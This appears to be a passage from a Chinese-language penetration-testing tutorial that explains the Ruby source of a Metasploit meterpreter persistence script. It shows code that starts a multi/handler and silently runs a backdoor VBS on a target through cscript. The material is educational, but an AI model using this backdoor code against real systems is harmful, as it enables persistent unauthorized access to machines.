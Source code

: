 ```
print_good("Multi/Handler started!")
end 
```

该函数创建一个多处理程序，以连接回攻击系统。这是一个通用函数，如果您想通过设置多处理程序来实现自动连接功能，可以在您的脚本中使用它。

```
# Function to execute script on target and return the PID of the process
#-------------------------------------------------------------------------------
def targets_exec(script_on_target)
print_status("Executing script #{script_on_target}")
proc = session.sys.process.execute("cscript \"#{script_on_target}\"", nil, {'Hidden' => true})
print_good("Agent executed with PID #{proc.pid}")
file_local_write(@clean_up_rc, "kill #{proc.pid}\n")
return proc.pid
end 
```

该函数负责在目标机器上执行脚本。持久性脚本在目标机器上创建 vbs 脚本，因此必须执行它们以打开连接。`Targets_exec()`函数解决了这个目的。如果您想在目标机器上执行脚本，这个函数可以再次作为通用函数在您自己的脚本中使用。`session.sys.process.execute()`调用负责执行脚本，`proc.pid`返回创建的后门进程的进程 ID。

代码的其余部分是不言自明的，这些函数被调用，一个清晰的脚本被创建，并且一个选项检查被实施。这个示例可能让您清楚地了解当我们执行一个 meterpreter 脚本时背后发生了什么。从渗透测试人员的角度来看，能够根据工作场景阅读和修改代码非常重要。这就是开源框架的美妙之处所在。您可以根据自己的需求进行修改，并通过直接分析现有的源代码来学习。
